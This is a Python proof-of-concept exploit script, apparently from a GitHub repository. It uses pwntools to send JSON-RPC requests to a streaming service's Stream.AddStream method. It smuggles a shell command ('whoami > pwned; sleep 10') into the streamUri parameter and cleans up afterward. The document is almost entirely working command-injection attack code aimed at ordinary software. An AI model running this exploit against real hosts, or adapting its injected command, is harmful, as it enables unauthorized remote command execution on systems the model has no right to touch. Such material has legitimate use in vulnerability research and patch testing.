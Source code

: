 # Proof-of-Concept
### Script
```python
# Mostly stolen from Oxnan, thanks buddy<3
import sys
import json
import time
import base64
import requests
from pwn import *

try:
    host = sys.argv[1]
    port = int(sys.argv[2])
except:
    print(f"Usage:\n{sys.argv[0]} hostname port")
    exit()

def genclean(streamname):
    clean = {
        "id": 8,
        "jsonrpc": "2.0",
        "method": "Stream.RemoveStream",
        "params": {"id": streamname},
    }
    return json.dumps(clean).encode()

def cleanup(streamname):
    genclean(streamname)
    time.sleep(0.1)
    io.sendline(genclean(streamname))
    return io.recvline()

def stage1(streamname):
    payload = {
        "id": 8,
        "jsonrpc": "2.0",
        "method": "Stream.AddStream",
        "params": {
            "streamUri": f"airplay:///etc/doesnotexist; whoami > pwned; sleep 10?name={streamname}"
        },
    }
    io.sendline(json.dumps(payload).encode())
    return io.recvline()

if __name__ == "__main__":
    io = remote(host, port)
    cleanup("hacker")
    stage1("hacker")
```
